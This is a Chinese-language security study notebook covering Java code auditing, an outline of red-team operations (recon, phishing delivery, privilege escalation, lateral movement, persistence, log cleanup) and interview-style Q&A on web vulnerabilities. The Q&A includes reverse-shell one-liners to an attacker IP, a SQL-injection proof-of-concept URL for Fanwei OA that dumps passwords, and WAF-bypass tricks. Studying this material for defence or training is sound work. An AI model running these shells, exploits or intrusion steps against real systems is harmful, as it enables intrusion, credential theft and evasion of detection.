 * 方法

** SQL注入

** Java代码审计

*** 代码审计常用思路

1.   接口排查：先找出从外部接口接收的参数，并跟踪其传递过程，观察是否有参数校验不严的变量传入高危方法中，或者在传递的过程中是否有代码逻辑漏洞（为了提高排查的全面性，代码审计人员可以向研发人员索要接口清单）。
2.   危险方法溯源：危险方法溯源（“逆向追踪”）：检查敏感方法的参数，并查看参数的传递与处理，判断变量是否可控并且已经过严格的过滤。
3.   功能点定向审计：根据经验判断该类应用通常会在哪些功能中出现漏洞，
     直接审计该类功能的代码。
4.   第三方组件、中间件版本比对：检查 Web 应用所使用的第三方组件或中间件的版本是否受到已知漏洞的影响。
5.   补丁对比：通过对补丁做比对，反推漏洞出处。
6.   黑白盒测试：我认为“白盒测试少直觉，黑盒测试难入微”。虽然代码审计的过程须以“白盒测试”为主，但是在过程中辅以“黑盒测试”将有助于快速定位到接口或做更全面的分析判断。交互式应用安全测试技术 IAST 就结合了“黑盒测试”与“白盒测试”的特点。
7.   代码静态扫描+人工研判：对于某些漏洞，使用代码静态扫描工具代替人工漏洞挖掘可以显著提高审计工作的效率。然而，代码静态扫描工具也存在“误报率高”等缺陷，具体使用时往往需要进一步研判。
8.   开发框架安全审计：审计 Web 应用所使用的开发框架是否存在自身安全性问题，或者由于用户使用不当而引发的安全风险。

*** 远程调试方法（docker）

修改容器yml开启调试端口-修改容器内部配置文件打开调试模式-拷贝容器源代码-用调试器打开源代码并配置好依赖（add as library）-配置调试地址和端口并开启调试-访问特定功能触发断点。

*** Java EE基础

**** Java EE分层模型

*Java EE核心技术*

-   Java 数据库连接（Java Database Connectivity，JDBC）在 Java 语言中用来规范客户端程序如何访问数据库的应用程序接口，提供了诸如查询和更新数据库中数据的方法。
-   Java 命名和目录接口（Java Naming and Directory Interface，JNDI）是 Java 的一个目录服务应用程序界面（API），它提供了一个目录系统，并将服务名称与对象关联起来，从而使开发人员在开发过程中可以用名称来访问对象。
-   企业级 JavaBean（Enterprise JavaBean，EJB）是一个用来构筑企业级应用的、在服务器端可被管理的组件。
-   远程方法调用（Remote Method Invocation，RMI）是 Java 的一组拥护开发分布式应用程序的 API，它大大增强了 Java 开发分布式应用的能力。
-   Servlet（Server Applet）是使用 Java 编写的服务器端程序。狭义的 Servlet 是指Java 语言实现的一个接口，广义的 Servlet 是指任何实现该 Servlet 接口的类。其主要功能在于交互式地浏览和修改数据，生成动态 Web 内容。
-   JSP（JavaServer Pages）是由 Sun 公司主导并创建的一种动态网页技术标准。JSP 部署于网络服务器上，可以响应客户端发送的请求，并根据请求内容动态生成HTML、XML 或其他格式文档的 Web 网页，然后返回给请求者。
-   可扩展标记语言（eXtensible Markup Language，XML）是被设计用于传输和存储数据的语言。
-   Java 消息服务（Java Message Service，JMS）是一个 Java 平台中关于面向消息中间件（MOM）的 API，用于在两个应用程序之间或分布式系统中发送消息，进行异步通信。

*Java EE分层模型*

-   Domain Object（领域对象）层：本层由一系列 POJO（Plain Old Java Object，普通的、传统的 Java 对象）组成，这些对象是该系统的 Domain Object，通常包含各自所需实现的业务逻辑方法。
-   DAO（Data Access Object，数据访问对象）层：本层由一系列 DAO 组件组成，这些 DAO 实现了对数据库的创建、查询、更新和删除等操作。
-   Service（业务逻辑）层：本层由一系列的业务逻辑对象组成，这些业务逻辑对象实现了系统所需要的业务逻辑方法。
-   Controller（控制器）层：本层由一系列控制器组成，这些控制器用于拦截用户的请求，并调用业务逻辑组件的业务逻辑方法去处理用户请求，然后根据处理结果向不同的 View 组件转发。
-   View（表现）层：本层由一系列的页面及视图组件组成，负责收集用户请求，并显示处理后的结果。

```
Database --> Domian Object --> DAO --> Service --> Controller --> View
```



**** MVC模式与MVC框架

**** Java Web核心技术

**** Java Web过滤器

**** Java反射机制

**** ClassLoader类加载机制

**** Java动态代理

**** 可用于Java Web的安全开发框架

*** 技巧

==重点关注sql in和like函数。==
SQLMapConfig.xml存储了和数据库有关的信息，地址、用户名、密码。

** 红队流程

*** 整体流程

入口权限--内网搜索/探测--免杀提权--抓取登陆凭证--跨平台横向攻击--入口权限维持--隧道数据回传--定期权限维持

*** 入口权限获取

**** 入口权限思路

***** 绕过CDN

1. oneforall爆破子域名
2. 在线网站

***** 找到后台入口

1. 御剑爆破目录
2. 人工测试
3. 指纹识别CMS（云悉）

***** C段

1. ping
2. nmap、==小米范==、.sh
3. ==railgun==
4. [webscan](https://www.webscan.cc)

***** web banner扫描C段

1. domain：爆破端口
2. IP：爆破端口

***** 服务和端口识别

1. railgun
2. nmap
3. 在线端口[coolaf](http://coolaf.com/)

***** 目标DNS区域传送

1. DNS同步数据库技术：53端口、子域爆破

***** 批量抓取所有子域

1. oneforall
2. 子域名挖掘机
3. 在线[phpinfo.me](https://phpinfo.me/)、[ip138](https://ip138.com/)

***** git信息泄漏

1. /.git 得到项目源代码
2. github语法：信息枚举

***** accesskey云盘和百度文库信息泄漏

***** 第三方历史漏洞库信息泄漏：敏感的账号密码

***** 目标SVN信息泄漏

1. /.svn

***** 搜索引擎

1. fofa、shodan、zoomeye
2. bing、google、百度、奇安信鹰图
3. ==小蓝本（股权、登录口、真实IP）==
4. 企查查、爱企查
5. ==fofa_viewer==

***** wiki

1. 敏感信息、账号密码

***** 微信小程序

1. 敏感信息泄漏
2. js探针信息收集目标内网信息

***** qq群、微信群、供应商

1. 收集手机号、微信号、邮箱

***** 敏感信息生成字典

1. ==cupp==
2. ==cewl==
3. 第三方合成工具

***** 判断waf、bypasswaf

1. ==wafw00f==
2. oneforall
3. dismap

***** bypasswaf RCE、webshell

1. 混淆、冰蝎魔改

***** SQL注入、java web中间件

***** nday使用

***** 免杀技巧

**** 服务器中间件

***** 综述

1. 中间件、web服务组件、开源程序、数据库
2. java->root/system

***** struts2

1. S2-005-057(052)

***** weblogic

1. CVE-2014-4210
2. CVE-2019-2715

***** JBOSS

1. CVE-2017-12149
2. 部署webshell war弱口令控制后台

***** tomcat

1. manager登录后台

***** jekins

1. 未授权访问、弱口令、任意命令执行

***** ElasticSearch

1. 搜索服务器、web接口连接、java语言开发
2. 2015年 任意文件读取

***** rabbitMQ

高级消息协议，发送消息或数据消息传输代理软件，未授权访问

***** Glassfish

1. web应用服务器，部署webshell、控制台默认管理后台弱口令

***** IBM webSphere

1. java反序列化
2. 部署后台webshell

***** apache ActiveMQ

1. 通信中间件 PUT文件上传jsp

***** apache solr

1. java CVE-2019-0193

***** shiro

1. 基于key拿shell

***** 阿里fastjson

1. 1.2.47反序列化漏洞

**** windows集成环境

***** AppServ

1. php网页工具组合包（单一）

***** Xampp

1. apache+mysql+php

***** 宝塔

1. 百余种中间件合集

***** 小皮（phpstudy）

1. 绝大多数
2. phpmyadmin

**** 开源程序

***** Dedecms

1. 织梦、后台弱口令
2. thinkPHP 5.x
3. phpcms
4. 诺伊CMS（计划任务提权）
5. ecshop（手机的开源CMS框架管理）
6. 帝国CMS
7. discuz
8. wordpress
9. drupal
10. phpmyadmin

**** web组件

***** IIS

1. windows环境，6.0版本存在put文件上传

***** 禅道项目管理系统

1. SQL注入、文件读取、远程代码执行

***** 通达OA

1. 一件getshell

***** exchange（CVE-2020-0688）

1. 权限维持、钓鱼

***** zimbra

1. 桌面形式、电子邮件开发供应商（火狐、safari、IE）
2. CVE-2019-9670

***** zabbix

1. 网络监视器（server、agent）
2. SQL注入、老版本存在弱口令、敏感信息泄露

***** cacti

***** webmin

1. /etc/inetd.comf
2. /etc/passwd

***** phpMailer

1. PHP邮件支撑

***** 泛微OA

***** 金蝶OA

1. SQL注入

***** UEditor

1. 富文本编辑器，文件上传

***** 用友NC

1. 命令执行

***** shellshock

1. bashshell漏洞

**** getshell

***** 后台弱口令

***** SSRF

***** SQL注入

***** 越权命令

***** 代码执行

***** 任意文件上传、文件包含

***** XSS-钓鱼-0day联动

***** 业务逻辑漏洞

**** 边界网络设备

***** 深信服Sangfor VPN

***** 飞塔防火墙（VPN）

1. ipsec网络层VPN
2. CVE-2018-13379文件读取

***** Pulse Secure vpn

1. 身份认证

*** getshell

**** TOP Port List

1. mssql（1433、弱口令sa、提权、后门植入、远程命令执行）
2. SMB（445端口、后门植入、远程命令执行）
3. ==WMI（135端口、远程命令执行、后门植入）==
4. ==winRM（5985）==
5. RDP（3389）
6. oracle（1521）
7. redis（未授权反问、set写入文件）
8. POSTgresql（5432）
9. LDAP（389）
10. SMTP（25、弱口令）
11. POP3（110）
12. IMAP（143）
13. Exchange（443、OWS接口PTS脱敏邮件获取敏感信息）
14. VNC
15. FTP
16. RSync
17. Mongodb（勒索软件）
18. telnet（23）

**** 钓鱼

***** 发信前期准备

*流量官网新闻信息，通过最新信息制造钓鱼文件名称，单位不一样，图标可以一样，字样新颖*
1. 枚举用户名、邮箱地址、手机号
2. 批量搜索目标邮箱弱口令、批量手机邮箱号
3. 伪造发信人、小号、搭建邮件服务器、==Gophish、ewomail、mip22==
4. 钓鱼信息

***** 投递方式

1. 直接投信（传统宏利用word/excel/pdf；捆绑putty/xshell/ssh软件；exe：zip；link；chm；自解压执行dll文件，任务管理器关不掉；木马链接xss/论坛/邮件）
2. 发送钓鱼链接（vpn；mail；OA；html hash远程模版注入，钓hash）

*** 主机安全

**** windows

1. 提前免杀
2. ==bypassuac（MSF/empire/PS）==
3. MS14-058
4. MS14-068
5. MS15-051
6. MS16-032
7. MS17-010
8. CVE-2019-0708
9. CVE-2019-12750

**** linux

1. ==les.sh==
2. ==linux exp suggester==
3. CVE-2021-4034
4. CVE-2022-0847

**** 第三方服务器软件提权

1. mssql
2. mysql udf
3. oracle
4. dll劫持第三软件
5. suid
6. 计划任务
7. 错误服务配置利用

*** 内网安全

**** 敏感信息收集

1. 收集跳板机信息
2. 查看当前shell权限和内核版本
3. IP配置信息枚举
4. 获取当前系统最近用户登录记录
5. 所有命令历史记录
6. 获取所有服务和进程，端口和同行的木马
7. tasklist查看杀毒软件
8. 获取rdp和ssh默认端口
9. 获取ssh登录记录
10. 获取当前windows环境的登录成功日志
11. 获取本机安装的软件
12. 浏览器历史保存的账号密码信息
13. 查看所有计划任务和执行脚本情况
14. 回收站的文件
15. 存在suid程序信息
16. 注册表项值
17. IPC命名管道是否开启
18. mount挂载
19. 查看防火墙状态（net关闭）
20. 获取开启的累积时长（长的风险大）
21. arp缓存、DNS缓存
22. host文件
23. 用户本地组的用户情况 
24. 抓取对方远程桌面信息（图片）

**** 依靠EDR捕捉敏感信息

1. 网络拓扑图
2. 安装EDR的终端的真实IP
3. telnet / tracert

**** 内网关键业务系统枚举

1. 内网共享服务器
2. web服务器
3. 内网数据库
4. 邮件服务器
5. ==监控服务器（zabbix/cacti）==
6. 防火墙、EDR、态势感知、超融合
7. 日志服务器
8. 补丁服务器
9. OA、ERP、HR、CRM
10. 打印机
11. VPN服务器
12. MES系统（exp、command（AUX））
13. 虚拟化服务器
14. 管理人员、研发人员的机器、运维人员
15. 路由交换、数通产品（disa int历史命令信息）

**** 漏洞

1. MS08-067
2. MS17-010
3. CVE-2019-0708

**** 敏感凭证

***** 主动信息收集

1. 批量抓取端口数据库和文件的弱口令
2. 查看doc/xls/txt文件枚举
3. mssql自动登录数据库（localhost）
4. 抓取注册表中的hash（win）
5. mimikatz抓取本地用户名密码
6. 凭据管理器保存各种连接的账号密码
7. mstsc默认rdp登录的历史记录
8. vnc客户端抓取保存的账号密码
9. SSH客户端抓取账号密码
10. 浏览器页面默认保存的账号密码
11. 数据库表中保存的账号密码
12. Xshell账号密码
13. VPN账号密码

***** 被动信息收集

1. ==ssp、winRAR联动做图像文件、植入内存中==
2. 域权限维持（[hook PasswordChangeNotify](https://cloud.tencent.com/developer/article/1760137)）
3. OWA exchange（登录账号密码截获）
4. 别名
5. 传统键盘记录（windows蓝屏；登录界面）
6. hash爆破

**** 隧道转发

***** 出网流量

1. http/dns（wmi、smb、ssh）
2. http脚本（==reGeorg、tunna、woo、wevely==）
3. ssh隧道转发
4. rdp隧道转发（==SocksOverRDP==）
5. 反响socks（frp、nps、CS）
6. 双向TCP端口转发（nginx、netsh、socat、ew不免杀）
7. ssh隧道加密（==dnscat2==，C&C隧道加密）
8. 端口复用（443、8080、==pystinger、netsh==）

*** 域

***** 信息收集

1. ==BloodHound==
2. 域管列表
3. 域控名
4. DNS服务器
5. SPN
6. 所有用户列表
7. 域林
8. 域信任
9. 开机时间
10. 域策略

**** 快速获取域控权限

1. GPP目录
2. 票据TGT、hash破解（mimiktz）
3. 批量对域用户进行单密码爆破（喷射==kerbrute==、ADSI接口操作）
4. ==Kerberos委派利用==
5. 爆破LDAP
6. Exchange利用
7. SSP截获账号密码
8. DNSadmin组如果开启了权限，可以利用dll恶意代码执行
9. MS14-068
10. ==LLMNR（hashcat、john爆破）/NBNS欺骗==

**** 域内后渗透

1. 获取所有DNS记录
2. 当前域的LDAP数据库详细信息
3. ==ntds.dit、sam、lasses.exe==
4. 卷影拷贝技术（==ntdsutil、vssadmin、diskshadow、vssown.vbs）
5. DCSYNS技术mimikatz

**** 域内指定登录IP定位

1. OWA
2. 域登录日志
3. ==银票==

**** 域内指定域控技巧

1. ==pTT票据传递工具==
2. GPO策略下发

**** 域权限维持

1. ==黄金票据==
2. ==万能密码-skeleton key-mimikatz==
3. ==krbtgt== DSRM密码同步
4. OWA后门

*** 横向

**** win-win

1. ==smbexec==
2. ==task/a计划任务==
3. ==wmi执行命令（wmiexec）==
4. ==winRm==微软远程管理工具
5. ==DCOM==远程执行（关闭防火墙）
6. ==RDP==留后门
7. mssql、oracle
8. ==PTH哈希传递攻击==
9. 补丁服务器下发策略执行命令
10. EDR执行命令下发策略

**** win-lin

1. ==plink==

**** lin-win

***** ==impacket==

1. wmiexec
2. smbexec
3. psexec
4. atexec

**** lin-lin

1. ssh

**** 各种远程下载

***** linux

1. wget
2. curl

***** windows

1. ==certutil.exe==
2. powershell
3. ==rundll32.exe==
4. ==regsvr32.exe==
5. ==bitsadmin.exe==

*** 权限维持

**** 边界入口权限

1. exchange权限维持
2. VPN登录口
3. web服务器
4. 边界web服务器放webshell
5. h3c路由解析shell

**** win

1. CS脚本
2. 计划任务
3. 注册表
4. wmi
5. dll
6. ==MOF==
7. 向日葵远控

**** linux

1. ssh
2. so（ko）服务
3. 计划任务（crontab）
4. 远程工具灰鸽子（应用层、驱动层）

*** 痕迹清理

1. web日志：访问、报错
2. 数据库日志：异常连接日志、慢查询日志
3. 各类安全日志：ssh、rdp、smb、wmi
4. 邮箱登录日志
5. 域的金银票日志

*** C2

1. CS
2. MSF
3. ==payload beacon==

*** webshell工具

1. 菜刀
2. 冰蝎
3. 蚁剑

*** 免杀

**** 静态

1. 混淆
2. 加壳

**** 动态

1. 反射

**** 流量

1. ==域前置==（CDN）
2. DNS加密隧道
3. 第三方邮箱
4. tg官网引流
5. go官网（语言官网）

*** 总结

1. ==ehole、kscan、dismap==
2. oneforall
3. awvs、goby、appscan、==nikto、xray、vulmap==
4. ==naabu.exe、httpx.exe、nuclei.exe、vscan.exe==联动

* 工具

* 技巧



* 漏洞

* 实战

* Q/A

** SQL

*Q：SQL注入原理，及利用方式？*
A：在应用没对SQL语句进行严格处理时可以插入恶意的SQL语句嵌入并执行；布尔盲注、联合注入、延时注入、宽字节注入、堆叠注入（两条语句先后执行）。

*Q：SQL注入如何防护？*
A：使用安全API、转义处理、白名单、规范编码集、预编译、WAF。

*Q：SQL常见符号无法使用的解决方法？*
A:
	` ` ：`/*/`、`%A0`、`%20`、`%0A`、`%0B`、`%0C`、`%2E` 浮点数8Eunion
	`=`：使用like 、`rlike` 、`regexp` \使用`<` 或者`>`
	`''`：用十六进制字符串
	`,`：substr/limit/mid使用from to、join（`select * from (select 1)a join (select 2)b`）、字符串用like
	`<>`：`greatest`函数返回最大值替代小于号`greatest(x,2)=2`、`least`函数返回最小值、`between`代替范围或相等`between 1 and 1`
	`注释`：用单引号闭合后面的语句
	`指令`：注释、内联注释、大小写、双关键字、等价函数（sleep/benchmark、hex/ascii）、宽字节`%df`或`\\`吃掉转义符号（replace/addslaches），将mysql\_query设置为binary方式

*Q：SQL预编译如何避免注入问题？*
A：SQL语句执行之前已经被数据库分析、编译、优化，执行计划被缓存并以参数化形式进行查询，即使存在异常语句也会作为一个参数或字段的属性值来处理而不会作为SQL指令。

*Q：SQL预编译不能防御的情况有哪些？*
A：预编译命令使用错误：第一次就使用了字符串拼接导致命令可控，编译可能不会生效；部分参数不可预编译：表和列名，若可控危险；预编译实现错误产生的逻辑漏洞。

*Q：宽字节注入如何解决？*
A：通过`mysql_real_escape_string`、`mysql_set_charset`。

*Q：联合注入的常用语句、常用函数和常用表？*
A：`order by`、`union`；`group_concat()`、`database()`；`information\_schema.tables`、`information\_schema.columns`。

*Q：盲注的常用函数*
A：`limit()`、`substr()`、`mid()`、`ascii()`、`regexp()`、`like`、`left()`、`chr()`、`sleep()`、`if()`。

** XSS

*Q：XSS的原理及利用方式？*
A：在web页面中嵌入js代码并执行；反射型、存储型、DOM型（窃取cookie、劫持流量恶意跳转`window.location.herf`，配合CSRF）。

*Q：XSS防护绕过方式？*
A：大小写、双写、`<img>`、编码、主动闭合标签。

*Q：如何防护XSS攻击？*
A：白名单过滤、编码、限制长度、转移。

** CSRF

*Q：CSRF的原理及利用方式？*
A：利用已经登录的用户，有道访问恶意链接、利用其身份非法操作（越权）；GET型（无token参数并有可控参数，不知情点击伪装链接完成操作）、POST型（无token参数并未验证referer信息）、链接型（诱导用户点击恶意链接）。

*Q：如何防护CSRF攻击？*
A：通过CSRF-token或验证码检测提交、验证referer、使用POST、避免通用cookie。

*Q：token和referer哪个安全性更好？*
A：token，不是任何服务器都能取得referer、且可以自定义。

*Q：登录访问控制？*
A：口令+短信验证、后端针对session生成token，下次操作后端验证token不一致不操作。

*Q：同源策略是什么？*
A：协议+域名+端口三者相同。同源策略限制的行为：无法读取非同源网页的 Cookie、LocalStorage 和 IndexedDB、无法接触非同源网页的 DOM、无法向非同源地址发送AJAX请求（可以发送，但浏览器会拒绝接受响应）。

*Q：如何解决跨域问题？*
A：web sockets（使用自定义的HTTP头部让浏览器与服务器进行沟通，从而决定请求或响应是应该成功，还是应该失败）、JSONP（利用script标签没有跨域限制的特性）、CORS（服务端设置 Access-Control-Allow-Origin）。

** SSRF

*Q：SSRF的原理及利用方式？*
A：攻击者构造由服务端发起的请求，一般以无法从外网访问的内部系统为目标。通过url传递给服务器执行位置，例如转码、在线翻译、请求远程资源。访问内网指纹文件、扫描主机端口、请求大文件DoS、攻击内网设备。weblogic CVE-2014-4210访问`http://192.168.199.155:7001/uddiexplorer/`修改oprator造成SSRF。

*Q：SSRF如何抵御？*
A：过滤返回信息、禁止不常用的协议、限制请求端口、Host白名单。

*Q：如何绕过SSRF防御？*
A：编码（IP）、利用url解析问题、利用跳转服务、IPv6、非http协议、DNS重绑定。

** XXE

*Q：XXE的原理及利用方式？*
A：XML外部实体注入，当允许引用外部实体时，通过构造恶意内容，导致读取任意文件、执行系统命令、内网探测与攻击等危害的一类漏洞；内网攻击、读取本地文件、执行远程命令`except`（要求有该扩展）spring-data-XMLBean（CVE-2018-1259）

```xml
普通实体
<!ENTITY 实体名 SYSTEM "URI">
<!ENTITY 实体名 PUBLIC "public_ID" "URI">
参数实体
<!ENTITY % 实体名称 "实体的值">
<!ENTITY % 实体名称 SYSTEM "URI">
```

*Q：如何防护XXE漏洞？*
A：关闭外部实体引用。

** 文件上传

*Q：文件上传的原理及利用方式？*
A：攻击者可以超过本身权限向服务器上传可执行的动态脚本文件、前端js验证（禁用js/改包）、大小写绕过、双重后缀名（IIS解析漏洞）、双写绕过。

*Q：如何防护文件上传漏洞？*
A：文件上传目录设置为不可执行、白名单过滤、随机数改写文件名和路径。

** 文件包含

*Q：文件上传的原理及利用方式？*
A：引入一段可控代码，令服务端通过include函数等动态执行。

*Q：导致文件包含的函数有哪些？*
A：
	PHP：`include()`、`require()`、`fopen()`、`readfile()`
	JSP：`ava.io.File()`、`java.io.FileReader()`
	ASP：`include file`、`include virtual`
	`include`报错继续执行，`require`报错退出。

** 逻辑漏洞

*Q：有哪些常见的逻辑漏洞？*
A：
	密码找回漏洞：密码允许暴力破解、存在通用型找回凭证、绕过验证步骤、找回凭证可以拦包。
	身份认证漏洞：固定会话攻击、Cookie仿冒，只要得到二者之一就可以伪造用户身份。
	验证码漏洞：验证码允许暴力破解、验证码可以通过js或改包的方式逃过。

*Q：挖掘过的业务逻辑漏洞？*
A：益阳市自来水有限公司存在登录绕过漏洞，在后台登录页面输入任意用户名密码，在验证返回后，服务器向客户端发送的报文中包含isSuccess字段，将其值改为True就能绕过登录逻辑直接以管理员身份进入系统。

** OA

*Q：常见的OA系统有哪些？*
A：泛微OA、织信OA、致远OA、蓝凌OA。

*Q：泛微OA的漏洞*
A：SQL注入漏洞：在泛微OA V8中的getdata.jsp文件里，通过gatData方法将数据获取并回显在页面上，而在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法。其中它存在四个参数，分别为空字符串、cmd参数值、request对象以及serverContext对象，通过对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中，从而在前台构造POC：`http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager`访问存在漏洞的网站：`http://x.x.x.x/login/Login.jsp?logintype=1`，其中该特征属于泛微OA v8系统。
文件上传漏洞：漏洞位于: /page/exportImport/uploadOperation.jsp文件中。Jsp流程大概是:判断请求是否是multipart请求,直接上传。重点关注File file=new File(savepath+filename)。Filename参数,是前台可控的,并且没有做任何过滤限制。然后请求 然后请求路径:page/exportImport/fileTransfer/1.jsp


** 隧道与代理

*Q：常见的隧道或代理软件？*
A：CS（设置代理）、msf（添加路由）、frp（反向代理）、ngork（内网穿透）、ew（正反向代理）、nc（弹shell）、proxychains、nginx（反向代理）、proxifier（socks5客户端）、reGeorg、wevely、ssh。

*Q：需要正向代理的情况？*
A：内网中有不能被外部访问但可以访问外部的设备，需要在中间跳板机上设置正向代理。

*Q：需要反向代理的情况？*
A：内网中有不出网的机器，在中间跳板机上设置反向代理，将内网机器映射到公网上。

*Q：如何反弹shell？*
A：
	nc：攻击机（`nc -lvp 4444`）、靶机（`nc 1.1.1.1 4444 -e /bin/bash`）
	bash：攻击机（`nc -lvp 4444`）、靶机（`bash -I >& /dev/tcp/1.1.1.1/4444 0>&1 /bin/bash`）

** CDN

*Q：CDN如何检测？*
A：nslookup、各地ping、修改host绑定域名。

*Q：CDN如何绕过？*
A：CDN配置错误某些未配置CDN、使用邮件服务找邮件源码分析IP地址对比备案、利用子域名、*使用国外或偏远地区无CDN获取真实IP*、*网站指纹*、*让服务器反向连接*、*信息泄露phpinfo*

** 域

*Q：域信任关系？*
A：用于确保一个域的用户可以访问和使用另一个域中的资源安全机制，分为双向可传递父子信任关系、树间双向可传递信任关系、同森林两域间快捷方式信任关系、外部信任关系不可传递单向信任、森林信任不可传递仅存在于森林根域之间。

*Q：域中常见的命令？*
A：
	`net config workstation`查看计算机名、全名、用户名、系统版本、域、登录域
	`nltest /domain_trusts`查看域信任关系
	`net user /domain`或`net time /domain`查看域控主机的用户账户和其它用户列表
	`nslookup`解析域控ip
	`net group /domain`查看分组
	`net group "Domain Admins" /domain`查看域中分组信息

** PHP

*Q：PHP魔术方法是什么？*
A：魔术方法：不需要显示的调用而是由某种特定的条件触发执行的以两个下划线开头的特殊预置函数。

*Q：PHP魔术方法有哪些？*
A：PHP魔术方法有如下几个：
	`__constuct`: 构建对象的时被调用
	`__destruct`: 明确销毁对象或脚本结束时被调用
	`__wakeup`: 当使用unserialize时被调用，可用于做些对象的初始化操作
	`__sleep`: 当使用serialize时被调用，当你不需要保存大对象的所有数据时很有用
	`__call`: 调用不可访问或不存在的方法时被调用
	`__callStatic`: 调用不可访问或不存在的静态方法时被调用
	`__set`: 当给不可访问或不存在属性赋值时被调用
	`__get`: 读取不可访问或不存在属性时被调用
	`__isset`: 对不可访问或不存在的属性调用isset()或empty()时被调用
	`__unset`: 对不可访问或不存在的属性进行unset时被调用
	`__invoke`: 当以函数方式调用对象时被调用
	`__toString`: 当一个类被转换成字符串时被调用
	`__clone`: 进行对象clone时被调用，用来调整对象的克隆行为
	`__debuginfo`: 当调用var_dump()打印对象时被调用（当你不想打印所有属性）适用于PHP5.6版本
	`__set_state`: 当调用var_export()导出类时，此静态方法被调用。用__set_state的返回值做为var_export的返回值

*Q：PHP反序列化漏洞利用流程*
A：析构-字符串操作-动态代码执行`to_array()`、`$closure`（满足或绕过条件、找到可控制参数、构造反序列化类）
	先找到入口文件，然后再层层跟进，找到代码执行点等危险操作。
	特别注意魔法函数、任意类和函数的调用、以及子类等的综合分析
	构造POC注意复用类和抽象类的问题：
	发现类是Trait类，Trait类PHP 5.4.0开始引入的一种代码复用技术，是为解决PHP单继承而准备的一种代码复用机制，无法通过 `trait` 自身来实例化，需要找到复用它的类来利用。
	抽象类也不能实例化，需要找到子类普通类来实例化。
	起点：

	- 最常用的就是反序列化时触发的魔术方法：
		`__destruct`: 明确销毁对象或脚本结束时被调用
		`__wakeup`: 当使用unserialize时被调用，可用于做些对象的初始化操作
	- 有关字符串操作可以触发的魔术方法：
		`__toString`: 当一个类被转换成字符串时被调用
	- 触发的情况
	中间跳板：
		`__toString`: 当一个类被转换成字符串时被调用
		`__call`: 调用不可访问或不存在的方法时被调用
		`__callStatic`: 调用不可访问或不存在的静态方法时被调用
		`__set`: 当给不可访问或不存在属性赋值时被调用
		`__get`: 读取不可访问或不存在属性时被调用
		`__isset`: 对不可访问或不存在的属性调用isset()或empty()时被调用
	终点：
	`__call`: 调用不可访问或不存在的方法时被调用
	`call_user_func`、`call_user_func_array`等代码执行点

*Q：PHP危险函数有哪些？*
A：
	代码执行函数：`eval()`、`assert()`、`preg_replace()`（`
preg_replace("/\[(.*)\]/e","\\1", $code);`）
	系统命令执行函数：`system()`、`exec()`、`shell_exec()`、`passthru()`、`popen()`

** JAVA

*Q：常见的JAVA中间件框架有哪些？*
A：apache、weblogic、spring、tomcat

*Q：JAVA危险函数有哪些？*
A：
	XSS：`getParameter()`、`getcokies()`、`getQueryString()`、getheaders()、`Runtime.exec()`
	文件下载：`download()`、write、getFile
	文件上传：`upload`
	命令执行：`java.lang.Runtime.getRuntime().exec()`
	反序列化：`ObjectInputStream.readObject`、J`SON.parseObject`
	XXE：`DocumentBuilder`、 `XMLStreamReader`
	日志：`log.info()`

** Python

*Q：python危险函数有哪些？*
A：
	代码执行：`eval()`、`exec()`
	命令执行：`os.popen()`、`os.system()`、`commands.getstatusoutput()`、`subprocess.Popen()`

** Nmap

*Q：Nmap的扫描方式有哪些？*
A:

|    方式     |           描述            | 参数 |
| :---------: | :-----------------------: | :--: |
| TCP connect |          全连接           | -sT  |
|   TCP SYN   |          半连接           | -sS  |
|   TCP FIN   |          发FIN包          | -sF  |
|  TCP NULL   | 发送不包含SYN RST ACK的包 | -sN  |
|   TCP ACK   |  只设置ACK探测是否被过滤  | -sA  |
| TCP Window  |         窗口扫描          | -sW  |
| TCP Maimon  |     同时设置FIN和ACK      | -sM  |
|             |    放弃主机发现禁ping     | -Pn  |

** 容器解析漏洞

```
IIS 6.0
/xx.asp/xx.jpg "xx.asp"是文件夹名

IIS 7.0/7.5
默认Fast-CGI开启，直接在url中图片地址后面输入/1.php，会把正常图片当成php解析

Nginx
版本小于等于0.8.37，利用方法和IIS 7.0/7.5一样，Fast-CGI关闭情况下也可利用。
空字节代码 xxx.jpg.php

Apache
上传的文件命名为：test.php.x1.x2.x3，Apache是从右往左判断后缀

lighttpd
